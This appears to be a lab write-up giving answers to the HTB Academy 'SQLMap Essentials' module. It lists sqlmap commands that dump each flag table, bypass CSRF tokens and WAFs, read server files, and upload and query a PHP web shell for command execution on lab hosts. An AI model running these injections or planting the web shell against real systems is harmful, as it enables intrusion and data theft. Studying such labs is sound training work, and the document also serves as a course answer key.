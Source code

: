 # [HTB_Academy] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```

```bash
sqlmap -r case4.txt -p id --dump
```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash
sqlmap 'http://94.237.62.6:47094/case5.php?id=1' --batch --dump -T flag5 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag6? (Case #6)**

```bash
sqlmap 'http://94.237.62.6:47094/case6.php?col=id' --prefix='`)' -p col --batch --dump -T flag6 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag7? (Case #7)**

```bash
sqlmap 'http://94.237.62.6:47094/case7.php?id=1' --batch --dump -T flag7 --no-cast --union-cols=5
```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb --tables
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb -T flag1 --dump
```

## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --search -C "style"
```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --dump -D testdb -T users -C name,password --no-cast
```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash
sqlmap -u "http://94.237.62.6:47094/case8.php" --data="id=1&t0ken=H9AemyR5JmWEZHQhjzVoyE3Q6gc9VMkaezSfg6qIEs" --csrf-token="t0ken" --batch --dump -T flag8
```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash
sqlmap -u "http://94.237.62.6:47094/case9.php?id=1&uid=1898023378" --randomize=uid --batch --dump -T flag9
```

>**Q. What's the contents of table flag10? (Case #10)**

```bash
sqlmap -u "http://94.237.62.6:47094/case10.php" --data="id=1" --batch --dump -T flag10 --random-agent
```

>**Q. What's the contents of table flag11? (Case #11)**

```bash
sqlmap -u "http://94.237.62.6:47094/case11.php?id=1" --skip-waf --batch --dump -T flag11 --tamper=between
```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-read "/var/www/html/flag.txt"
cat /home/marcos/.local/share/sqlmap/output/94.237.62.37/files/_var_www_html_flag.txt
```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash
sudo nano shell.php  
```

```php
echo '<?php system($_GET["cmd"]); ?>'
```

```bash
sudo chmod +x shell.php
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://94.237.62.37:45885/shell.php?cmd=cat+../../../flag.txt
[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs -D production -T final_flag
```
